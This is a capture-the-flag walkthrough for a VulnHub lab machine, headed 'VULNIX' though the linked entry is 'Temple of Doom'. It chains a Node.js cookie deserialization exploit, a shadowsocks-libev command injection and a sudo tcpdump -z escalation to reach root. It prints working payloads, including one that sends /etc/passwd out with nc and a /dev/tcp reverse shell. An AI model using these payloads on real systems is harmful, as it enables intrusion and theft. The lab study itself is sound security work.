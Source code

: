 # VULNIX

**URL: https://www.vulnhub.com/entry/temple-of-doom-1,243/**

### NMAP  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 09:02 UTC  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00044s latency).  
>Not shown: 998 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)  
>|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)  
>|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)  
>666/tcp open  http    Node.js Express framework  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  


### FIRST STEP: HTTP Cookie  

When we access the http service of the server we get the following message: "Under Construction, Come Back Later!". But, the second request throws an exception.
Reading the output of the error we know that there's something wrong with the unserialization of the cookie. If we decode the cookie we get something like:  

>{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires **\=\"\:** Friday, 13 Oct 2018 00:00:00 GMT"}  

We see that there's an error in the json format. When we correct this we get a "Hello Admin" message.  

Searching a bit, we find these document:  

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf  

With this information, and playing with the output, we edit the exploit to make it work. In order to make it easier, we create a script to encode the requests:  

root@kali:~# cat cookie.py   

>import sys  
>import base64  
>  
>COOKIE='{"rce":"test","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires":"Friday, 13 Oct 2018 00:00:00 GMT","username":"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'cat /etc/passwd | nc 192.168.111.4 8888\', function(error, stdout, stderr) { console.log(stdout) }); }()"}'  
>  
>print base64.b64encode(COOKIE)  


With this cookie, we make a request to the server:  

>root@kali:~# curl -H "Cookie: profile=$(python cookie.py)" "http://192.168.111.3:666/"  

And we get the content of /etc/passwd:  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41624  
>root\:x\:0:0:root:/root:/bin/bash  
>...  
>nodeadmin\:x\:1001:1001::/home/nodeadmin:/bin/bash  
>fireman\:x\:1002:1002::/home/fireman:/bin/bash  

Now, let's get our reverse shell. With the following code:  
  
>"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'/bin/bash -i >& /dev/tcp/192.168.111.4/8888 0>&1 \', function(error, stdout, stderr) { console.log(stdout) }); }()"  

We get our shell. But the first thing is getting an interactive shell, so let's exchange SSH keys and open a proper shell.  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41628  
>bash: cannot set terminal process group (806): Inappropriate ioctl for device  
>bash: no job control in this shell  
>[nodeadmin@localhost ~]$   
>[nodeadmin@localhost ~]$ uname -a  
>Linux localhost.localdomain 4.16.3-301.fc28.x86_64 #1 SMP Mon Apr 23 21:59:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>[nodeadmin@localhost ~]$ mkdir .ssh  
>[nodeadmin@localhost ~]$ chmod 700 .ssh  
>[nodeadmin@localhost ~]$ chmod 600 .ssh/authorized_keys  
>[nodeadmin@localhost ~]$ echo 'ssh-rsa AAAA...jf root@kali' > /home/nodeadmin/.ssh/authorized_keys  

Now we can login via SSH without being asked for the password.  

After trying harder, and harder... we look for stuff from the other user in the system until we find something interesting:  

[nodeadmin@localhost ~]$ grep -riI fireman /etc/  
>/etc/rc.d/rc.local:#su fireman -c /usr/local/bin/ss-manager  

We run "/usr/local/bin/ss-manager --help" and read that it's "shadowsocks-libev 3.1.0". Looking for info about this binary we find the following:  

https://www.x41-dsec.de/lab/advisories/x41-2017-010-shadowsocks-libev/  

There's a RCE vulnerability with this version. So after a lot of tests, we end up changing our crontab and adding the following line:  

[nodeadmin@localhost ~]$ crontab -l
>@reboot /bin/node /home/nodeadmin/.web/server.js &  
>**@reboot su fireman -c /usr/local/bin/ss-manager**  

We reboot the machine and find another port open, where it's running the ss-manager. So, we exploit this vulnerability to gain access as **fireman**:  

[nodeadmin@localhost ~]$ nc -u 127.0.0.1 8839  
>add: {"server_port":8003, "password":"test", "method":"||echo 'ssh-rsa AAAA...jf root@kali' > /home/fireman/.ssh/authorized_keys"}**ok**  

And we get an OK. So now, we can login with fireman through SSH. Let's explore this way. Quickly we find that fireman can execute some stuff as root:

[fireman@localhost ~]$ sudo -l  
>Matching Defaults entries for fireman on localhost:  
>    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1  
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT  
>    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL  
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
>User fireman may run the following commands on localhost:  
>    (ALL) NOPASSWD: /sbin/iptables  
>    (ALL) NOPASSWD: /usr/bin/nmcli  
>    (ALL) NOPASSWD: /usr/sbin/tcpdump  


nmcli? Where have I heard that before? **CVE-2018-1111**. And judging by the iptables config, it makes sense that we have to disable it first to exploit this vulnerability.  

[fireman@localhost ~]$ sudo iptables -L  
>Chain INPUT (policy ACCEPT)  
>target     prot opt source               destination           
>DROP       udp  --  anywhere             anywhere             udp spt:bootps dpt:bootpc  
>  
>Chain FORWARD (policy ACCEPT)  
>target     prot opt source               destination           
>  
>Chain OUTPUT (policy ACCEPT)  
>target     prot opt source               destination    

Here is a demo:

https://twitter.com/Barknkilic/status/996470756283486209  

But, let's explore another way. Why tcpdump? Reading the man page, we see some interesing flags: "[ -z postrotate-command ] [ -Z user ]"  

Let's try this. Creating a small script to do the same as before:  

[fireman@localhost ~]$ cat RCE  
>#/bin/bash  
>echo 'ssh-rsa AAA...zdzjf root@kali' > /root/.ssh/authorized_keys  

And executing it after a 1 second of capture.   

[fireman@localhost ~]$ sudo tcpdump -i eth0 -G 1 -z ./RCE -Z root  

Bingo, that was one way. Now we can login as root and read the flag:  

root@kali:~# ssh -l root 192.168.111.3  
>Last failed login: Sat Jul 14 15:06:59 EDT 2018  
>There were 3 failed login attempts since the last successful login.  
>Last login: Thu Jun  7 23:14:57 2018 from 192.168.2.15  
>[root@localhost ~]# id  
>uid=0(root) gid=0(root) groups=0(root)  
>[root@localhost ~]# ls -lrth  
>total 4.0K  
>-rw-r--r-- 1 root root 2.0K Jun  7 23:16 flag.txt  
